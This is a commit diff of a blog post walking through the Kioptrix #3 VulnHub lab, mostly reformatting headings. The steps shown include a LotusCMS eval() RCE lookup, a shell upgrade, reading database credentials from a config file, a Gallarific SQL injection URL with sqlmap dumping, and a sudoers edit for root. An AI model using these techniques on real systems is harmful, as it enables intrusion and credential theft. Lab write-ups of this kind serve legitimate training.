

Before and after one commit to JoeNibe/JoeNibe.github.io, a Jekyll site: the page built from _posts/vulnhub/2020-02-07-kioptrix #3.md, in a window 1280 px wide and 900 px high, scrolled down 2307 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes; nearby versions of some CDN libraries; some of the changed text lies outside the part shown.

Commit message:
Update 2020-02-07-kioptrix #3.md

````diff
--- a/_posts/vulnhub/2020-02-07-kioptrix #3.md
+++ b/_posts/vulnhub/2020-02-07-kioptrix #3.md
@@ -45,10 +45,10 @@ http://kioptrix3.com/index.php?system=Admin
 
 There are lot of methods to compromise this system. I will try to explain the ones I found.
 
-## User Shell Method 1 (Lotus CMS RCE)
+# User Shell Method 1 (Lotus CMS RCE)
 The webserver is using `LotusCms`. A quick search using `searchsploit` yielded some `RCE`
 
-#### Searchsploit
+### Searchsploit
 
 ```bash
 kali@kali:~$ searchsploit lotuscms
@@ -58,7 +58,7 @@ LotusCMS 3.0 - 'eval()' Remote Command Execution (Metasploit)               | ex
 
 Its a `metasploit` module. However since use of `metasploit` is limited during OSCP, I exploited it without `metasploit`
 
-#### Understanding LotusCms RCE
+### Understanding LotusCms RCE
 >This module exploits a vulnerability found in Lotus CMS 3.0's Router() function. This is done by embedding PHP code in the 'page' parameter,
 >which will be passed to a eval call, therefore allowing remote code execution.
 
@@ -79,16 +79,9 @@ python -c 'import pty;pty.spawn("/bin/bash")'
 www-data@Kioptrix3:/home/www/kioptrix3.com$
 ```
 
-### Low Shell Enumeration
-The following details was found
+## Low Shell Enumeration
 
-1. 2 users named `loneferret` and `dreg`
-```bash
-www-data@Kioptrix3:/home$ ls
-ls
-dreg  loneferret  www
-```
-2. A file named `gconfig.php` that contains `db` credentials
+There is a file named `gconfig.php` that contains the `db` credentials
 ```bash
 www-data@Kioptrix3:/home/www/kioptrix3.com/gallery$ cat gconfig.php
 cat gconfig.php
@@ -103,9 +96,10 @@ cat gconfig.php
 ```
 
 We can use these credential to login to `phpmyadmin` and find credentials for `dreg` and `loneferret` and use it to `SSH` into the box.
+
 ![image1]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhubimg/kioptrix3/phpmyadmin2.png){: .align-center}
 
-## User Shell Method 2 (SQL Injection)
+# User Shell Method 2 (SQL Injection)
 
 The web server is using `Gallarific`. It contains an SQL Injection in the following url.
 
@@ -116,7 +110,7 @@ http://kioptrix3.com/gallery/gallery.php?id=1%27&sort=filename#photos
 
 The sql error indicates that sql injection is possible. Lets dump the database using `sqlmap`
 
-#### SqlMap
+### SqlMap
 
 ```bash
 Database: gallery
@@ -173,6 +167,7 @@ Before using `ht` we have to set the `$TERM` env variable to `xterm'
 loneferret@Kioptrix3:/home/loneferret#export TERM=xterm
 ```
 So lets open `sudoers` file and add `/bin/sh` to it.
+
 ![image1]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhubimg/kioptrix3/root.gif){: .align-center}
 
 And we are root!
````
Also changed, not shown: other parts of _posts/vulnhub/2020-02-07-kioptrix #3.md (+4 -4 lines).
